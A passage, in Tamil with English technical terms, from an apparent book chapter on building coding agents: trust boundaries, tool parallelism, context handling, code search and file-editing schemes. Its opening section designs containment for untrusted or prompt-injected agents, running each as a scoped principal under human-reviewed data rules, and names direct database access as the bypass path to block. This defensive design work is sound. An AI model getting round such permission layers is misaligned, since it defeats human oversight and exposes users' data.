**பொறுப்புள்ள மனிதர்களால்** எழுதப்பட்டு, மதிப்பாய்வு செய்யப்பட்டு, பராமரிக்கப்படுகிறது. AI இந்த அடிப்படையை இரண்டு முறை உடைத்துள்ளது: முதலில், LLM-உருவாக்கிய handlers பெரும்பாலும் மனித எழுத்தாளர்கள் செயல்பாடுகள் முழுவதும் அமைதியாக எடுத்துச் செல்லும் அனுமதி மற்றும் ஒருமைப்பாடு சோதனைகளைத் தவறவிடுகின்றன; இரண்டாவதாக, தன்னாட்சி Agents நேரடியாக உற்பத்தி தரவில் செயல்படுகின்றன, மேலும் ஒரு single prompt injection அல்லது hallucination அவர்களின் credentials அணுகக்கூடிய அனைத்தையும் சிதைக்கலாம் அல்லது கசியவிடலாம்.

முக்கியமான பதில் என்னவென்றால், **அந்த நம்பத்தகாத அடுக்கை வலுப்படுத்துவது**—அரசியலமைப்பு கொள்கைகளைப் பயன்படுத்தி உருவாக்கத்தை வழிநடத்துதல், கட்டமைப்பைச் சரிபார்க்க linterகளைப் பயன்படுத்துதல், மற்றும் Agent செயல்களைக் கண்காணிக்க ஒப்பந்தங்களைப் பயன்படுத்துதல். இவை அனைத்தும் AI-எழுதிய குறியீடு விதிகளைப் பின்பற்றுவதற்கு "அதிக வாய்ப்புள்ளதாக" ஆக்குகின்றன, ஆனால் எதுவும் **இறுதியில் நம்பப்படும் அடுக்கை** மாற்றுவதில்லை. மிகவும் தீவிரமான அணுகுமுறை எதிர்மாறாகச் செய்வதாகும்: **வெறுமனே application அடுக்கை நம்பத்தகாததாகக் கருதி, data invariants-ஐ அதற்குக் கீழே செயல்படுத்துவதைத் தள்ளுவது** (இதை Permission-Embedded Data Objects என்று அழைக்கலாம்). ஒவ்வொரு data entity-யும் ஒரு **மனித மதிப்பாய்வு செய்யப்பட்ட schema**-க்குள் declarative permission விதிகள், validators, மற்றும் consequence அறிக்கைகளை எடுத்துச் செல்கிறது, மேலும் ஒரு மூன்று-நிலை runtime pipeline அவற்றை **ஒவ்வொரு write-லும்** செயல்படுத்துகிறது. முக்கியமானது ஒரு ஒருங்கிணைந்த primitive—ஒவ்வொரு செயல்பாட்டிலும் இணைக்கப்பட்ட **access context**: ஒரு மீண்டும் உருவாக்கப்பட்ட handler அது சேவை செய்யும் பயனரின் அனுமதிகளுடன் இயங்குகிறது, அதேசமயம் ஒரு autonomous Agent அதன் சொந்த கட்டுப்படுத்தப்பட்ட அடையாளத்துடன் (scoped principal) இயங்குகிறது—இது முந்தைய "loyalty" விவாதத்துடன் நேரடியாக இணைகிறது: Agent விசுவாசமாக இருக்கும் என்று நம்புவதற்குப் பதிலாக, அதை ஒரு அனுமதி-வரையறுக்கப்பட்ட entity ஆக கட்டமைப்பு ரீதியாக தரமிறக்குங்கள், அதனால் அது திருப்பப்பட்டாலும், அது எல்லையை மீற முடியாது.

இந்த அணுகுமுறையின் செலவுகள் மற்றும் நன்மைகள் தெளிவானவை. இந்த வழிமுறையை பல முக்கிய தீர்வுகளுடன் ஒரே set of prompts-ல் ஒப்பிடும்போது, இது **அறிவிக்கப்பட்ட invariants-ன் பூஜ்ஜிய மீறல்களை** அடைகிறது (ஒரு சுத்தமான பூஜ்ஜியம்). அதே prompts-ன் கீழ், bare SQL, LLM-எழுதிய சரிபார்ப்புகள், constitutional prompts, மற்றும் action boundary interceptors அனைத்தும் பல முதல் பல டஜன் முறை வரை மீறல்களைத் தவறவிடுகின்றன. இந்த "பூஜ்ஜியம்" தான் ஒரு கட்டமைப்பு வழிமுறை வழங்க வேண்டியது—இது "சரியாக இருக்க அதிக வாய்ப்பு" அல்ல, மாறாக "தவறாக இருக்க இயலாது." செலவு என்பது pipeline-ல் ஒரு write-க்கு சுமார் 2 கூடுதல் மில்லி விநாடிகள் மட்டுமே. நிச்சயமாக, இந்த உத்தரவாதம் நிபந்தனைகளுடன் வருகிறது: schema உண்மையில் அனைத்து விரும்பிய invariants-ஐயும் கைப்பற்ற வேண்டும், மேலும் deployment நம்பத்தகாத அடுக்குகள் சேமிப்பகத்தைத் தவிர்த்து நேரடியாக database-உடன் இணைக்கக்கூடிய அனைத்து பாதைகளையும் தடுக்க வேண்டும் (process isolation, network sidecars, அல்லது capability handles மூலம் அடையப்படுகிறது). Coding Agents-க்கு, இது ஒரு முக்கியமான கட்டமைப்பு கொள்கையை வழங்குகிறது: **குறியீடு எழுதுபவர் மற்றும் குறியீடு இயக்குபவர் இருவரும் நம்பத்தகாதவர்களாக இருக்கும்போது, உண்மையிலேயே நம்பகமான கட்டுப்பாடுகள் உருவாக்கப்பட்ட குறியீட்டில் இருக்க முடியாது, மாறாக மனித மதிப்பாய்வு செய்யப்பட்ட அடித்தளத்தில் வைக்கப்பட வேண்டும்**—இது Chapter 1-ல் இருந்து "constraints over guidance" கொள்கையின் இறுதி வடிவமாகும், data layer-ல் பயன்படுத்தப்படுகிறது.

[^ch5-2]: "நம்பிக்கை எல்லையை application அடுக்குக்குக் கீழே நகர்த்துதல்" என்ற இந்த வடிவமைப்பு மற்றும் மதிப்பீடு (வெவ்வேறு தீர்வுகளில் மீறல் எண்ணிக்கைகளின் முழுமையான ஒப்பீடு உட்பட) Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (forthcoming) இல் காணலாம்.

### Coding Agents-க்கான Implementation Tips

மேலே விவரிக்கப்பட்ட workflow ஆனது ideal state ஆகும். இதை நடைமுறையில் செயல்படுத்த, பல குறிப்பிட்ட implementation techniques தேவைப்படுகின்றன—response speed-ஐ மேம்படுத்தவும், context consumption-ஐ குறைக்கவும், அதே நேரத்தில் thinking quality-ஐ பராமரிக்கவும். இவை Chapter 2 மற்றும் Chapter 4-இல் விவாதிக்கப்பட்ட general Agent techniques-ஐ programming domain-க்கு பயன்படுத்தும் concrete applications ஆகும்.

**Parallel Tool Calls, Streaming Execution, மற்றும் Cascading Abort.**

பாரம்பரிய Agent implementations பெரும்பாலும் serial mode-ஐ பயன்படுத்துகின்றன: ஒரு tool call-ஐ generate செய்தல், அதை execute செய்தல், result-ஐ பெறுதல், பின்னர் அடுத்த step-ஐ முடிவு செய்தல். இந்த strict queuing நிறைய நேரத்தை வீணாக்குகிறது.

நவீன Coding Agents streaming responses-ஐ முழுமையாக பயன்படுத்த வேண்டும்: Chapter 2 இந்த mechanism-ஐ model output order பற்றி விவாதிக்கும் போது அறிமுகப்படுத்தியது—முதல் tool call-இன் parameters முழுமையாக generate செய்யப்பட்டு validation-ஐ கடந்தவுடன், execution உடனடியாக தொடங்கலாம், மாதிரி அடுத்தடுத்த tool calls-ஐ generate செய்வதற்கு காத்திருக்க வேண்டியதில்லை. உதாரணமாக, model ஒரு inference-இல் மூன்று tool calls-ஐ output செய்ய வேண்டும் என்றால்—code-ஐ தேடுதல், configuration files-ஐ சரிபார்த்தல், மற்றும் logs-ஐ படித்தல்—முதல் call-இன் parameters முழுமையாக generate செய்யப்பட்டு validated ஆனவுடன் execute செய்யத் தொடங்கலாம், இது கடைசி இரண்டு calls-இன் generation-உடன் overlap ஆகும். சுயாதீனமான calls-ஐ queue செய்வதற்கு பதிலாக parallel-ஆகவும் execute செய்யலாம். இந்த overlapping execution end-to-end latency-ஐ கணிசமாக குறைக்கிறது, இதனால் Agent-இன் responses மிகவும் சுறுசுறுப்பாக மாறும்.

Parallel execution-இன் எதிர்மறை பக்கமானது fault handling ஆகும். ஒவ்வொரு tool definition-உம் அது concurrent execution-ஐ ஆதரிக்கிறதா என்பதை அறிவிக்க வேண்டும் (default no, fail-safe). ஒரு call தோல்வியடையும் போது, cascading abort mechanism அதே batch-இல் தொடங்கப்பட்ட மற்ற calls-ஐ, அதன் result-ஐ சார்ந்திருக்கும் calls-ஐ நிறுத்துகிறது, ஆனால் சுயாதீனமான calls அல்லது parent operation-ஐ பாதிக்காது—இது முந்தைய பகுதியில் Harness perspective-இலிருந்து "fault boundary control" கொள்கையின் concrete implementation ஆகும்.

**Fine-Grained Context Management.**

Coding Agents-க்கான அடிப்படை சவால் என்னவென்றால், codebases பொதுவாக பெரியதாக இருக்கும், ஆனால் model-இன் context window குறைவாக இருக்கும். மேம்பட்ட models மில்லியன் கணக்கான tokens-ஐ ஆதரிப்பதாக கூறினாலும், முழு codebase-ஐயும் context-இல் நிரப்புவது பொருளாதார ரீதியாகவும் அவசியமும் இல்லை. அறிவார்ந்த context management பல நிலைகளில் செயல்பட வேண்டும்.

File reading level-இல், Agent எப்போதும் முழு file-ஐயும் படிக்கக்கூடாது. பெரிய files-க்கு, tool குறிப்பிட்ட line ranges-ஐ படிப்பதை ஆதரிக்க வேண்டும்—உதாரணமாக, ஆயிரக்கணக்கான lines கொண்ட file-ஐ ஏற்றுவதற்கு பதிலாக lines 100 முதல் 150 வரை மட்டுமே படித்தல். மிக முக்கியமாக, content-ஐ திருப்பி அனுப்பும் போது, line numbers-ஐ இணைக்க வேண்டும்—ஒவ்வொரு line of code-உம் அதன் உண்மையான line number-உடன் முன்னொட்டாக இருக்க வேண்டும். இந்த எளிமையான வடிவமைப்பு பெரும் மதிப்பைக் கொண்டுவருகிறது: model "`src/main.py`-இன் line 42" என்று துல்லியமாக குறிப்பிட முடியும், இது ambiguity-ஐ குறைத்து அடுத்தடுத்த edit operations-ஐ மிகவும் நம்பகமானதாக ஆக்குகிறது.

கட்டளை செயல்படுத்தும் மட்டத்தில், terminal output-ஐ கையாள்வதிலும் கவனம் தேவை. Compilation அல்லது testing ஆயிரக்கணக்கான வரிகள் output-ஐ உருவாக்கலாம். இவை அனைத்தும் context-ல் செலுத்தப்பட்டால், budget விரைவாக தீர்ந்துவிடும். Chapter 4-ல் அறிமுகப்படுத்தப்பட்ட long output truncation மற்றும் persistence mechanism இங்கு பரவலாகப் பயன்படுத்தப்படுகிறது: output-ன் முதல் சில வரிகள் (பொதுவாக error context-ஐ கொண்டவை) மற்றும் கடைசி சில வரிகள் (பொதுவாக error summaries-ஐ கொண்டவை) வைத்துக்கொள்ளப்படுகின்றன, நடுப்பகுதி ஒரு வரி prompt-ஆல் மாற்றப்படுகிறது, மேலும் முழுமையான output தேவைக்கேற்ப பார்ப்பதற்காக ஒரு தற்காலிக கோப்பில் சேமிக்கப்பட்டுள்ளது என்பது குறிப்பிடப்படுகிறது.

**சூழல் தகவலின் Dynamic Injection.**

இது Coding Agents-ல் Chapter 2-ல் இருந்து வரும் Agent status bar நுட்பத்தின் குவிந்த வெளிப்பாடாகும். பொதுவான Agents-ஐ விட, Coding Agents execution environment-ன் நிலையை மிகவும் சார்ந்துள்ளன. ஒவ்வொரு inference-க்கும் முன், பின்வரும் முக்கிய சூழல் தகவல்கள் context-ன் முடிவில் Agent status bar வடிவில் செலுத்தப்பட வேண்டும்:

- **தற்போதைய வேலை செய்யும் கோப்பகம்**: path references சரியாக இருப்பதை உறுதி செய்கிறது
- **Git branch**: main branch-லா அல்லது feature branch-லா வேலை செய்கிறது என்பதை அறிய உதவுகிறது
- **சமீபத்திய commit வரலாறு**: திட்டத்தின் பரிணாமத்தைப் புரிந்துகொள்ள உதவுகிறது
- **Unstaged மற்றும் staged மாற்றங்களின் கண்ணோட்டம்**: என்ன மாற்றங்கள் செய்யப்பட்டுள்ளன என்பதை அறிய உதவுகிறது

இந்த தகவல்கள் static system prompts-ல் hardcode செய்யப்படக்கூடாது—அது KV Cache efficiency-ஐ அழித்துவிடும்—மாறாக, dynamic ஆக உருவாக்கப்பட்டு, இணைக்கப்பட்ட Agent status bar ஆக செலுத்தப்பட வேண்டும். இந்த வழியில், Agent "சூழல் விழிப்புணர்வை" பெறுகிறது, ஒவ்வொரு முடிவும் காலாவதியான அனுமானங்களை அடிப்படையாகக் கொள்ளாமல், தற்போதைய நிலையின் துல்லியமான புரிதலை அடிப்படையாகக் கொண்டுள்ளது.

**கட்டளை செயல்படுத்தும் சூழலில் State Persistence.**

குறியீட்டுடன் தொடர்பு கொள்ளும்போது, பல செயல்பாடுகள் சூழல் நிலையைச் சார்ந்துள்ளன: கோப்பகங்களை மாற்றுதல், virtual environments-ஐ செயல்படுத்துதல், environment variables-ஐ அமைத்தல், background services-ஐ தொடங்குதல். ஒவ்வொரு கட்டளையும் ஒரு புதிய shell-ல் செயல்படுத்தப்பட்டால், இந்த நிலை அனைத்தும் இழக்கப்படும்—Agent `cd` ஐப் பயன்படுத்தி திட்ட கோப்பகத்திற்குச் சென்றது, ஆனால் அடுத்த கட்டளை root கோப்பகத்தில் இருந்து தொடங்குகிறது, அதே அமைப்பை மீண்டும் செய்யும்படி கட்டாயப்படுத்துகிறது. மேலும் மோசமானது, சில செயல்பாடுகளின் விளைவுகள் (Python virtual environment-ஐ செயல்படுத்துவது போன்றவை) தற்போதைய shell session-க்குள் மட்டுமே செல்லுபடியாகும் மற்றும் sessions-க்கு இடையே அனுப்ப முடியாது.

எனவே, ஒரு நிலையான terminal session பராமரிக்கப்பட வேண்டும், இது Agent தொடங்கும் போது உருவாக்கப்பட்டு முழு தொடர்பு முழுவதும் செயலில் வைக்கப்படுகிறது. ஒவ்வொரு கட்டளையும் இந்த பகிரப்பட்ட terminal-ல் செயல்படுத்தப்படுகிறது, வேலை செய்யும் கோப்பகம், environment variables மற்றும் session நிலை ஆகியவற்றைப் பாதுகாக்கிறது. இந்த வடிவமைப்பு மனித டெவலப்பர்களின் வேலைப் பழக்கங்களுடன் மிகவும் ஒத்துப்போகிறது—நாங்கள் பொதுவாக நீண்ட நேரம் இயங்கும் terminal window-ல் வேலை செய்கிறோம். நிச்சயமாக, Agent இணையான பணிகளை ஆதரிக்க தனிமைப்படுத்தப்பட்ட terminals-ஐ தொடங்கும் திறனையும் தக்க வைத்துக் கொள்ள வேண்டும், ஆனால் நிலையான session தான் இயல்பான முறையாக இருக்க வேண்டும்.

**Instant Syntax Feedback Mechanism.**

இது மீண்டும் Agent நிலைப் பட்டி (status bar) நுட்பத்தின் மதிப்பை நிரூபிக்கிறது. Agent குறியீட்டை மாற்றிய பின், பயனர் வெளிப்படையாகச் சோதனை செய்யக் கோரும் வரை காத்திருக்காமல், தொடரியல் (syntax) சரிபார்ப்பை உடனடியாகச் செய்ய வேண்டும். மிகவும் திறமையான அணுகுமுறை: கோப்பு எழுதும் செயல்பாடு முடிந்த உடனேயே, tool layer தானாகவே தொடர்புடைய linter அல்லது syntax checker ஐ இயக்கி, அதன் முடிவுகளை tool இன் திரும்பும் மதிப்பின் ஒரு பகுதியாக Agent க்கு வழங்க வேண்டும். ஒரு syntax error கண்டறியப்பட்டால், Agent அடுத்த inference சுற்றிலேயே விரிவான பிழைத் தகவலை உடனடியாகப் பார்க்கும்—IDE இல் ஒரு புரோகிராமர் தவறான அடைப்புக்குறியைத் தட்டச்சு செய்தால், எடிட்டர் உடனடியாக ஒரு சிவப்புக் கோட்டை எச்சரிக்கையாக வரைவது போல. இந்த உடனடி பின்னூட்ட வழிமுறை (instant feedback mechanism) பிழை திருத்தத்தின் செலவைக் கணிசமாகக் குறைக்கிறது, ஏனெனில் Agent பிழையை அது அறிமுகப்படுத்தப்பட்ட தருணத்திலேயே சரிசெய்ய முடியும், சோதனைகளை இயக்கும் வரை காத்திருக்க வேண்டியதில்லை.

இந்த ஐந்து செயலாக்க நுட்பங்களும்—parallelism மற்றும் streaming, context management, environmental awareness, state persistence, மற்றும் instant feedback—ஒன்றாகச் சேர்ந்து ஒரு திறமையான Coding Agent இன் தொழில்நுட்ப அடித்தளத்தை உருவாக்குகின்றன. இவை தனித்தனியான உகப்பாக்கப் புள்ளிகள் அல்ல, மாறாக ஒன்றையொன்று வலுப்படுத்தும் வடிவமைப்பு முடிவுகள், அனைத்தும் ஒரே இலக்கை நோக்கிச் செல்கின்றன: ஒரு அனுபவம் வாய்ந்த டெவலப்பரைப் போல Agent சீராக வேலை செய்ய உதவுவது.

### Coding Agents இல் தேடல் கருவிகள் (Search Tools)

ஒரு பெரிய codebase இல் தொடர்புடைய குறியீட்டைக் கண்டறிவது Coding Agent இன் வேலையின் தொடக்கப் புள்ளியாகும். படம் 5-3 பல நிரப்பு தேடல் கருவிகளை ஒப்பிட்டுக் காட்டுகிறது, ஒரு முதிர்ந்த Coding Agent பணியின் தன்மையின் அடிப்படையில் மீட்டெடுப்பு முறைகளை எவ்வாறு தேர்வு செய்ய வேண்டும் என்பதை விளக்குகிறது.



**Regex Content Matching** (grep/ripgrep): மிகவும் பாரம்பரியமான தேடல் முறை, கோப்பு உள்ளடக்கங்களை வரி வரியாக ஸ்கேன் செய்து pattern பொருத்தங்களைக் கண்டறியும். Agent கண்டுபிடிக்க வேண்டிய குறிப்பிட்ட உரையை (செயல்பாட்டுப் பெயர்கள், மாறி பெயர்கள், பிழை செய்திகள்) அறிந்திருக்கும்போது, அது அனைத்து நிகழ்வுகளையும் விரைவாகவும் துல்லியமாகவும் கண்டறிய முடியும். ரெகுலர் எக்ஸ்பிரஷன்களின் (சிறப்புக் குறியீடுகளைப் பயன்படுத்தி உரை வடிவங்களை விவரிக்கும் ஒரு தொடரியல், எ.கா., `def handle.*` என்பது `handle` இல் தொடங்கும் அனைத்து செயல்பாட்டு வரையறைகளையும் பொருத்தும்) சக்திவாய்ந்த வெளிப்படுத்தும் திறன் சிக்கலான வடிவங்களைப் பிடிக்க முடியும், எழுத்து மூல உரையை மட்டுமல்ல, குறிப்பிட்ட கட்டமைப்புகளுக்கு இணங்கும் குறியீட்டுத் துண்டுகளையும் தேட முடியும். நடைமுறையில், கோப்பு வகை வடிகட்டுதல் (Python கோப்புகளை மட்டும் தேடு) மற்றும் பாதை வடிவ வடிகட்டுதல் (சோதனை அடைவுகளை விலக்கு) ஆகியவையும் ஆதரிக்கப்பட வேண்டும், சத்தத்தைக் குறைக்க. அடிப்படை வரம்பு என்னவென்றால், இது உரை ரீதியாகப் பொருந்தும் உள்ளடக்கத்தை மட்டுமே கண்டுபிடிக்க முடியும், சொற்பொருளைப் புரிந்து கொள்ள முடியாது—"user authentication" ஐத் தேடினால், உள்நுழைவு தர்க்கத்தைக் கையாளும் ஆனால் "authentication" என்ற வார்த்தையைக் கொண்டிருக்காத செயல்பாடுகளைக் கண்டுபிடிக்க முடியாது.

**Filename Pattern Matching** (glob): கோப்பின் உள்ளடக்கத்தைப் புறக்கணித்து, ஒரு pattern-உடன் பொருந்தும் கோப்புகளுக்காக file system-ன் path structure-ஐ மட்டுமே தேடுகிறது. உதாரணமாக, `**/*.test.ts` என்பது அனைத்து TypeScript test கோப்புகளையும் recursively கண்டுபிடிக்கும், `src/components/**/Button.tsx` என்பது components-ன் கீழ் எந்த ஆழத்திலும் உள்ள Button.tsx-ஐத் தேடும். இது content search-ஐ விட மிக வேகமானது (கோப்புகளைத் திறந்து படிக்க வேண்டிய அவசியமில்லை) மற்றும் Agent-ன் project structure-ஐ ஆராய்வதற்கான முதல் படியாகும்—முழு file system-ஐ ஸ்கேன் செய்து project-ன் organizational framework-ஐ விரைவாக நிறுவுகிறது.

**Semantic Code Search**: முதல் இரண்டு exact matching முறைகளைப் போலல்லாமல், query மற்றும் code-ன் "பொருளை"ப் புரிந்துகொள்ள முயற்சிக்கிறது. இது இரண்டு முக்கிய பிரச்சினைகளைத் தீர்க்க வேண்டும்:

- **Structure-Aware Chunking**: Code கடுமையான syntactic structure-ஐக் கொண்டுள்ளது மற்றும் functions, classes, methods போன்ற முழுமையான semantic units-களால் பிரிக்கப்பட வேண்டும், குறிப்பிட்ட எண்ணிக்கையிலான எழுத்துக்களால் கண்மூடித்தனமாக வெட்டப்படக்கூடாது.
- **Hybrid Retrieval** (Chapter 3 இந்த technology stack-ஐ விவரிக்கிறது): Vector embeddings (dense embeddings) வேறுபட்ட சொற்களைக் கொண்ட semantic-ஆக ஒத்த code-ஐக் கண்டுபிடிப்பதில் சிறந்து விளங்குகின்றன (எ.கா., "verify user identity" என்று தேடினால் `check_credentials` என்ற function-ஐக் கண்டுபிடிக்க முடியும்), அதேசமயம் keyword matching (BM25, term frequency மற்றும் document length-ஐ அடிப்படையாகக் கொண்ட ஒரு பாரம்பரிய retrieval algorithm) function மற்றும் variable names-ஐத் துல்லியமாகப் பொருத்துவதில் சிறந்து விளங்குகிறது. இரண்டும் இணையாக இயங்குகின்றன, மேலும் முடிவுகள் reranker (candidate results-களில் fine-grained relevance ranking-ஐச் செய்யும் cross-encoder) மூலம் ஒன்றிணைக்கப்பட்டு வரிசைப்படுத்தப்படுகின்றன, இது complementary coverage-ஐ வழங்குகிறது.

Semantic search என்பது exploratory tasks-களுக்கு மிகவும் பொருத்தமானது, எடுத்துக்காட்டாக, அறிமுகமில்லாத codebase-இல் "தரவுத்தளத்துடன் தொடர்புகொள்வது" அல்லது "பயனர் உள்ளீட்டு சரிபார்ப்பைக் கையாள்வது" தொடர்பான code-ஐக் கண்டுபிடிப்பது.

இருப்பினும், semantic search-க்காக embedding indices-ஐ உருவாக்குவது மதிப்புள்ளதா என்பது குறித்து industry-இல் தெளிவான விவாதம் உள்ளது. Claude Code போன்ற Terminal-based Agents **embedding indices-ஐ உருவாக்க வேண்டாம்** என்று வேண்டுமென்றே தேர்வு செய்கின்றன, agentic grep + glob-ஐ மட்டுமே on-the-fly retrieval-க்காக நம்பியுள்ளன—இது code உருவாகும்போது stale ஆகும் indices-ஐப் பராமரிப்பதைத் தவிர்க்கிறது, முழு indexing infrastructure-ஐ நீக்குகிறது, மேலும் code embeddings-ஐ மூன்றாம் தரப்பு சேவைகளுக்கு அனுப்பும் அபாயத்தையும் தவிர்க்கிறது. Cursor போன்ற IDE-based tools எதிர் அணுகுமுறையை எடுக்கின்றன: **cross-file semantic recall**-க்காக indices-ஐ உருவாக்கும் செலவைச் செலுத்த அவை தயாராக உள்ளன, பெரிய codebases-இல் semantic-ஆக தொடர்புடைய ஆனால் வித்தியாசமான சொற்களைக் கொண்ட snippets-ஐ விரைவாகக் கண்டுபிடிக்க embedding indices-ஐப் பயன்படுத்துகின்றன. இரண்டு வழிகளுக்கும் இடையிலான trade-off அடிப்படையில் "infrastructure மற்றும் data egress-ன் செலவு" மற்றும் "cross-file semantic recall-ன் பலன்" ஆகியவற்றை எடைபோடுவதில் அடங்கியுள்ளது.

**Symbol-Level Definition and Reference Lookup**: IDE-யின் "go to definition" மற்றும் "find all references" திறன்களை (LSP, அல்லது Language Server Protocol—editors மற்றும் language analysis engines இடையேயான தகவல்தொடர்புக்கான ஒரு நிலையான நெறிமுறை) அடிப்படையாகக் கொண்டு, இது ஒரே பெயரைக் கொண்ட symbols-ன் definition மற்றும் calls-ஐ வேறுபடுத்தி அறிய முடியும்—எடுத்துக்காட்டாக, line 42-ல் உள்ள `authenticate` என்பது ஒரு function definition என்றும், line 189-ல் அது ஒரு call என்றும் இது அறியும், அதேசமயம் text search அந்த string-ஐக் கொண்ட அனைத்து lines-ஐ மட்டுமே கண்டுபிடிக்க முடியும். Code refactoring-க்கு இது மிகவும் முக்கியமானது—ஒரு function-ஐ rename செய்யும்போது, text search-ஐ மட்டும் நம்பியிருக்க முடியாது (function name comments அல்லது strings-ல் தோன்றலாம்); definition மற்றும் அனைத்து உண்மையான call sites-ஐயும் துல்லியமாகக் கண்டறிய symbol search-ஐப் பயன்படுத்த வேண்டும்.

இந்த நான்கு search methods-ம் ஒரு நிரப்பு toolbox-ஐ உருவாக்குகின்றன, நடைமுறையில் பெரும்பாலும் இணைந்து பயன்படுத்தப்படுகின்றன: முதலில் semantic search-ஐப் பயன்படுத்தி relevant modules-ஐக் கண்டறியவும், பின்னர் regex matching-ஐப் பயன்படுத்தி specific lines of code-ஐத் துல்லியமாகக் கண்டறியவும், இறுதியாக symbol search-ஐப் பயன்படுத்தி call chain-ஐக் கண்டறியவும்—"coarse-இலிருந்து fine-க்கு, semantics-இலிருந்து syntax-க்கு" என்ற முற்போக்கான உத்தி.

### Coding Agents-ல் File Editing Tools

File editing-ன் சிரமம் அந்த operation-ல் இல்லை, மாறாக LLM-ஐப் பயன்படுத்தி "எதை மாற்ற வேண்டும், எப்படி மாற்ற வேண்டும்" என்பதை system-க்குத் திறமையாகவும் நம்பகத்தன்மையுடனும் எப்படிச் சொல்வது என்பதில் உள்ளது. Figure 5-4 ஐந்து file editing schemes-ஐ ஒப்பிட்டுக் காட்டுகிறது, இது human language expression-க்கும் machine-precise execution-க்கும் இடையேயான அடிப்படை முரண்பாட்டை விளக்குகிறது.


**Diff விளக்கம் + Apply Model**: Model நேரடியாக file-ஐ எப்படி திருத்த வேண்டும் என்பதைக் குறிப்பிடுவதில்லை; மாறாக, அது ஒரு மாற்ற விளக்கத்தை உருவாக்குகிறது—இது git diff-ஐ ஒத்த diff text ஆக இருக்கலாம் (`git diff` கட்டளையின் வெளியீட்டு வடிவம், "எந்த வரிகள் நீக்கப்பட்டன, எந்த வரிகள் சேர்க்கப்பட்டன" என்பதைக் காட்டுகிறது), அல்லது omission markers உடன் கூடிய code skeleton ஆக இருக்கலாம் (மாற்றப்படாத பகுதிகளைத் தவிர்க்க "இங்கு மாறாமல் உள்ளது" போன்ற comments-ஐப் பயன்படுத்தி). இந்த விளக்கம் பின்னர் ஒரு சிறப்பு "Apply Model"-க்கு—பொதுவாக மற்றொரு, சிறிய, வேகமான LLM—அனுப்பப்படுகிறது, இது அசல் file-உடன் இணைத்து முழுமையான புதிய file-ஐ உருவாக்கும் பொறுப்பைக் கொண்டுள்ளது. இந்தப் பணிப் பிரிப்பு main model-ஐ உயர்-நிலை code logic-இல் கவனம் செலுத்தவும், apply model-ஐ குறைந்த-நிலை text operations-இல் கவனம் செலுத்தவும் அனுமதிக்கிறது. ஒரு எளிய implementation-இன் பலவீனம் merge step-இல் உள்ளது: change description-க்கும் உண்மையான file code-க்கும் இடையே சிறிய முரண்பாடுகள் இருக்கும்போது, அவை ஒரே இடத்தைக் குறிப்பிடுகின்றனவா என்பதைத் தீர்மானிக்க வேண்டும்; பல ஒத்த code snippets இருக்கும்போது, அது தவறான இடத்தில் merge ஆகலாம். Cursor இந்த அணுகுமுறையின் தொடர்ச்சியான பரிணாமத்தின் பிரதிநிதியாகும்: main model omission markers உடன் கூடிய code skeleton-ஐ வெளியிடுகிறது, ஒரு சிறப்பாகப் பயிற்றுவிக்கப்பட்ட fast-apply small model முழுமையான file-ஐ மீண்டும் எழுதுகிறது, மற்றும் speculative decoding (அசல் file content-ஐ draft ஆகப் பயன்படுத்தி இணையான சரிபார்ப்புக்காக) merge வேகத்தை வினாடிக்கு ஆயிரக்கணக்கான tokens ஆக உயர்த்துகிறது—engineering முதலீடு இந்த அணுகுமுறைக்கு நம்பகத்தன்மையையும் வேகத்தையும் வாங்கித் தந்துள்ளது.

**Old String → New String**: Claude Code பின்பற்றும் அணுகுமுறை. Model ஒரு old string-ஐ (மாற்றப்பட வேண்டிய அசல் text) மற்றும் ஒரு new string-ஐ (மாற்றீடு text) வழங்குகிறது, மேலும் framework ஒரு எளிய string find-and-replace-ஐச் செய்கிறது. நன்மை கணிக்கக்கூடிய தன்மை மற்றும் வெளிப்படைத்தன்மை ஆகும்—old string file-இல் இருந்து தனித்துவமாக இருந்தால், அது வெற்றி பெறுகிறது; இல்லையெனில், அது தோல்வியடைகிறது. எந்த தெளிவின்மையும் இல்லை. செலவு என்னவென்றால், பெரிய code blocks-ஐ நீக்க அனைத்து அசல் content-ஐயும் முழுமையாக வெளியிட வேண்டும்; ஒரு எழுத்து விலகல் கூட match தோல்வியடைய காரணமாகிறது. அதே code பல முறை தோன்றும்போது, தெளிவுபடுத்த நீண்ட context வழங்கப்பட வேண்டும்.

**Line Number Targeting** (Old Line Numbers → New String): Model "X முதல் Y வரையிலான வரிகளை நீக்கு, புதிய content-ஐச் சேர்" என்று குறிப்பிடுகிறது. Line numbers துல்லியமானவை மற்றும் தெளிவற்றவை, மேலும் பெரிய blocks-ஐ நீக்க இரண்டு எண்கள் மட்டுமே தேவை. இருப்பினும், Model "எண்ணும்" போது line numbers-இல் பிழைகள் ஏற்பட வாய்ப்புள்ளது, குறிப்பாக மிக நீண்ட files-க்கு. நடைமுறையில், file-ஐப் படிக்கும்போது ஒவ்வொரு வரியிலும் line number annotations சேர்ப்பதன் மூலம் இது குறைக்கப்படுகிறது, ஆனால் ஒவ்வொரு திருத்தத்திற்குப் பிறகும் அடுத்தடுத்த line numbers மாறுகின்றன, இது பல திருத்தங்களின் இணைநிலையைக் கட்டுப்படுத்துகிறது.

**Vim-like Edit Commands**: Vim editor-இன் கட்டளை அமைப்பிலிருந்து கடன் வாங்கப்பட்டது, copy, cut, மற்றும் paste போன்ற வளமான செயல்பாடுகளை ஆதரிக்கிறது. Code-ஐ மறுகட்டமைப்பதற்கு (ஒரு function-ஐ ஒரு இடத்திலிருந்து மற்றொரு இடத்திற்கு நகர்த்துதல்) மிகவும் திறமையானது. இருப்பினும், கட்டளை syntax குறிப்பிடத்தக்க கற்றல் சுமையைக் கொண்டுள்ளது; வலுவான models இதை நன்றாகப் பயன்படுத்த முடியும், ஆனால் சிறிய models-இல் பிழை விகிதம் குறிப்பிடத்தக்க அளவில் அதிகமாக உள்ளது.

